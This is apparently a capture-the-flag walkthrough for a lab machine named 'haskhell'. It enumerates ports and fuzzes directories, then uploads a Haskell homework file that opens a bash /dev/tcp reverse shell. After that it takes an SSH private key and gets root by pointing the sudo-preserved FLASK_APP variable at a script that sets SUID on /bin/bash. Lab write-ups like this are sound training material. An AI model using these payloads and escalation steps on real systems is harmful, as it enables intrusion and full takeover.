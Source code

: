 ```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5001 | HTTP    |



# RECONNAISSANCE
---


We can begin by visiting the web application:

![[Pasted image 20250404151817.png]]


If we go to the homework section, we can see the following:


![[Pasted image 20250404152029.png]]

We can go to the link and it will take us here:

![[Pasted image 20250404152050.png]]

If we fuzz, we can find the submit directory in which we can upload a `haskell` file:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.110.142:5001/FUZZ" -ic -c -t 200\

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.110.142:5001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
submit                  [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 655ms]

```


A Haskell file (with the `.hs` extension) is a text file containing code written in the Haskell programming language, a purely functional, statically typed language. These files are used to define functions, data types, and program logic. When compiled or interpreted, the code is executed to perform tasks.

Based on that, we can begin exploitation.


# EXPLOITATION
---


Ok, if we read the homework section, we can find the indications on how to upload the Haskell file:

```
1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code" 
```


Nice, if we follow the instructions, we can create a payload to receive a reverse shell:

```haskell
module Main where

import System.Process

-- Homework functions (required to pass checks)
fib :: Int -> Int -> [Int]
fib a b = take 100 $ a : b : zipWith (+) (fib a b) (tail (fib a b))

range :: Int -> Int -> [Int]
range x y = [x..y]

grey :: Int -> [String]
grey n
    | n <= 0    = [""]
    | otherwise = map ('0':) prev ++ map ('1':) (reverse prev)
    where prev = grey (n-1)

-- Reverse shell payload (adjust IP/PORT)
main :: IO ()
main = callCommand "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

If we upload the file, and set up our listener, we can see the following:

![[Pasted image 20250404152827.png]]

There we go, we got our shell. Let's start privilege escalation.




# PRIVILEGE ESCALATION
---


Let's begin by stabilizing the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read user.txt now:

```
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
```

We can grab the `id_rsa` from `prof` and log into ssh:

![[Pasted image 20250404153210.png]]


If we check our sudo privileges, we can notice this:

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Let's read the script:

```python
prof@haskhell:~$ cat /usr/bin/flask

#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
```


- The `FLASK_APP` environment variable is preserved due to `env_keep` in the sudoers configuration. 
- By pointing `FLASK_APP` to a malicious script, Flask executes it as root when `sudo flask run` is called.
- This bypasses restrictions because the script runs in the context of the Flask process (owned by root).

So, we can do the following:

1. Create a malicious file with the following contents:

```python
import os
os.system('chmod u+s /bin/bash')  # Set SUID bit on /bin/bash
```

2, Set the environment variable:

```
export FLASK_APP=exploit.py
```

3. Run flask as root:

```
sudo /usr/bin/flask run
```

We can see the following:

![[Pasted image 20250404154306.png]]

There we go, we got our root shell and can finally read `root.txt`:

```
bash-4.4# cat /root/root.txt
flag{im_purely_functional}
```

![[Pasted image 20250404154405.png]]

